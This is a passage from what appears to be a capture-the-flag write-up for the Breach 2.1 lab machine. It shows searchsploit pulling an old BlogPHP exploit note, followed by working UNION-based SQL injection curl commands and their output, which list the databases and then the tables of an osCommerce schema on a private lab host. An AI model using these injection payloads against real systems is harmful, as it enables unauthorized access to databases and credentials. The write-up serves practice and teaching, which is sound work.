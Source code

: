 ```bash
----------------------------------------------------------------------------- -------------------------
```

## Exploitation
### SQL Injection

I focused in SQL Injection vulnerability, I copied the 5442.txt file to my current directory, and read the specifications to exploit it.

```bash
root@kali:~$ searchsploit -m php/webapps/5042.txt
  Exploit: BlogPHP 2 - 'id' Cross-Site Scripting / SQL Injection
      URL: https://www.exploit-db.com/exploits/5042
     Path: /usr/share/exploitdb/exploits/php/webapps/5042.txt
File Type: Perl script text executable

Copied to: /root/breach2.1/5042.txt
```

The SQL statement to exploit that vulnerability doesn't work, so I proceeded to rebuild the SQL statement and finaly it works. 

**Listing databases**

On the blog database I didn't find anything, so I focused on **oscommerce** database this looks interesting.

```bash
root@kali:~$ curl -s 'http://192.168.110.151/blog/index.php?act=page&id=999999999%27%20union%20select%200,1,table_schema,3,4%20from%20information_schema.tables%20--%20-' | tr '<' '\n' | grep -P 'br />\w' | awk -F ">" '{print $NF}'
information_schema 
blog 
mysql 
oscommerce 
performance_schema
```

**Enumerating tables**

There are many tables, but I focused on the **osc_administrators** table.

```bash
root@kali:~$ curl -s 'http://192.168.110.151/blog/index.php?act=page&id=999999999%27%20union%20select%200,1,table_name,3,4%20from%20information_schema.tab
les%20where%20table_schema=%27oscommerce%27--%20-' | tr '<' '\n' | grep -P 'br />\w' | awk -F ">" '{print $NF}'                                                     
osc_address_book                                                                                                                                                    
osc_administrators                                                                                                                                                  
osc_administrators_access                                                                                                                                           
osc_administrators_log                                                                                                                                              
osc_banners                                                                                                                                                         
osc_banners_history                                                                                                                                                 
osc_categories                                                                                                                                                      
osc_categories_description                                                                                                                                          
osc_configuration                                                                                                                                                   
```
